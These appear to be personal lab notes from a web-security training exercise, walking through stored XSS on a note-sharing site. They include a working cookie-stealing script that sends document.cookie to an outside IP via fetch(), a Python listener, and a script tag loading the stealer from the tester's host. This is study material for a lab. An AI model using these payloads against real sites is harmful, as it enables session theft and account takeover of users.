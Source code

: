 
#### Initial Web Page
- login page exists
- Looks like a group website to take notes and can give `likes` to others posts and `report`
-  able to sign up

![[Pasted image 20250106100350.png]]

##### /login.php
- no login credentials yet
![[Pasted image 20250106100523.png]]

##### /register.php
- creating an account with credentials `testing:testing`
![[Pasted image 20250106100619.png]]

###### /profile.php
- once logged in able to see i am logged in as `testing` and am able to create a note
![[Pasted image 20250106100810.png]]
- creating a new note with `test`
![[Pasted image 20250106100915.png]]
- testing `XSS` with generic payload `<h1>offsec</h1>` and looks like it was properly processed, potentially vulnerable to `XSS`

![[Pasted image 20250106101104.png]]
- also tested an `alert` payload `<script>alert('XSS')</script>` to see if alert popped
- it worked :D
![[Pasted image 20250106101442.png]]
- going to begin testing `XSS` payloads
###### Payload 2 - `STEALING COOKIES`
```bash
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim xss_stealing_cookies.js   

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat xss_stealing_cookies.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.61.62/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![[Pasted image 20250106101854.png]]
- starting `python3` http server
```bash
┌──(root💀gobots)-[06Jan2025 15:19:22]-[/home/kali/SUT/192.168.61.62]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
![[Pasted image 20250106102014.png]]
- payload to test against own kali machine to pull over the `xss_stealing_cookies.js` file
```bash
<script src="http://192.168.49.61:80/xss_stealing_cookies.js"></script>
```
- entering in the script here